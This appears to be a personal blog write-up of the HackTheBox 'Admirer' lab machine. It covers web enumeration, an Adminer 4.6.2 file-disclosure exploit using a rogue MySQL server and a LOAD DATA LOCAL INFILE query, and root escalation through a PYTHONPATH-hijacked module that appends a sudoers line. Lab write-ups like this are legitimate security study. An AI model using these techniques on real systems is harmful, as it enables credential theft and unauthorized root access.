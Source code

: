 ```yaml
---
layout: post
title: "HackTheBox: Admirer WriteUp"
categories: [write-ups]
permalink: /write-ups/htb_admirer_writeup/
---
```

Admirer is an easy rated machine hosted in HackTheBox. As always, the goal is to obtain root and read the flag in /root/root.txt.<br>
It's been a long time since I've posted something, that is because I am really busy with college right now so I don't have time to solve CTFs and do the write-ups.
<h1>Port Scan</h1>
![Port Scan](portscan.png)
We can see that there are 3 ports open with ftp, ssh and http.
<h1>HTTP Enumeration</h1>
Looking at the default scripts output from Nmap we can see that there is a robots.txt file with a disallowed entry.
![Robots](robots.png)
The entry is a directory without directory listing enabled, so I used Gobuster to enumerate the files.
![Gobuster Admin Dir](gobusterAdminDir.png)
There are two files, one with some names and emails and the other one with some credentials.
![Contacts](contacts.png)
![Credentials](credentials.png)
<h1>FTP Authenticated Login</h1>
FTP doesn't have anonymous access enabled but the credentials obtained in the credentials.txt file allow us to login as ftpuser to the server. There are only two files inside the FTP server (a database dump and a tar.gz file).
![FTP File List](ftpFiles.png)
The database dump doesn't have anything really interesting, but it tells us the database that is being used and some info about the server.
![SQLDump](sqldump.png)
The html.tar.gz seems to be an old backup of the web on port 80.
![HTML list](htmlList.png)
The w4ld0s_s3cr3t_d1r seems to be the same as admin-dir and the utility-scripts directory has some administration related php scripts.
![Utility Scripts ls](utilityScriptsLs.png)
Inside of the db_admin.php file we can read the following:
![DB Admin Code](db_adminCode.png)
<h1>Finding Database Admin</h1>
The utilty-scripts directory exists on the web server but it doesn't have the db_admin.php file, which means that they've found an open source alternative. I used both Gobuster and Google to find the necessary file.
![Google DBADMIN](google.png)
The first search result on Google shows "Adminer", which is also the name of the database (it is written in the SQLDump).
Gobuster found a file called adminer.php inside of the utility-scripts directory.
![Gobuster utility-scripts](gobusterUtScr.png) 
<h1>Adminer Enumeration</h1>
The credentials of the database are inside the index.php file in the backup, but they don't work with the Adminer page.
![Backup credentials](indexBakCred.png)
![Login failed](loginFail.png)
As we can see in the login failed image the installed version of Adminer is 4.6.2, which is [vulnerable and leads to file disclosure](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool).
<h1>Exploiting Adminer</h1>
To exploit the vulnerability we need to have a mysql server exposed to the network with users that have remote access and permissions to write in a table.<br>
I changed the bind address inside the /etc/mysql/mariadb.conf.d/50-server.cnf file.
![Bind Address](adminerexp1.png)
![Starting the server](adminerexp2.png)
![Create user and GRANT](adminerexp3.png)
![Create the table](adminerexp4.png)
Once all the preparations are done we only need to connect to our server using the Adminer of the machine.
![Adminer Login](adminerLogin1.png)
![Adminer Login Success](adminerLogin2.png)
Then we can execute this query with the index.php file to dump the current database credentials into our SQL server:
{% highlight SQL %}LOAD DATA local INFILE "nameOfFile" INTO TABLE file;{% endhighlight %}
![Query Executed](query1.png)
![Credentials](query2.png)
<h1>SSH as Waldo</h1>
The credentials found using the file disclosure can be used to access the machine as the waldo user.
![SSH](sshWaldo.png)
Running the "sudo -l" command we can see that waldo can execute the "/opt/scripts/admin_tasks.sh" as root while preserving his environment variables.
![Sudo -l](sudo-l.png)
This code calls a python script that backups the web files:
{% highlight bash %}backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}
{% endhighlight %}
The python script imports a function from the shutil module and executes it with three arguments:
{% highlight python %}#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
{% endhighlight %}

<h1>PrivEsc to Root</h1>
Reading the python documentation I found that python has a variable that specifies the search path for the modules, which is initialized using the PYTHONPATH environment variable. If we change the PYTHONPATH we can inject a malicious module and run it as root.
![PYTHONPATH info](PYTHONPATHinfo.png)
I wrote this module, which grants waldo sudo privileges to run commands as every user (I tried using a reverse shell, but it didn't work because the process was getting sent to background).
{% highlight python %}def make_archive(arg1,arg2,arg3):
    f = open("/etc/sudoers","a")
    f.write("waldo    ALL=(ALL:ALL) ALL")
    f.close()
{% endhighlight %}
![PrivESC](privesc.png)

<h1>Conclusion</h1>
This machine focuses on enumerating the web server, which was an unknown topic for me the first time I attempted it. If you are familiar with this then the machine is pretty straightforward until the privilege escalation part, where I had to spend some time because I didn't know anything about the python module importing mechanism.
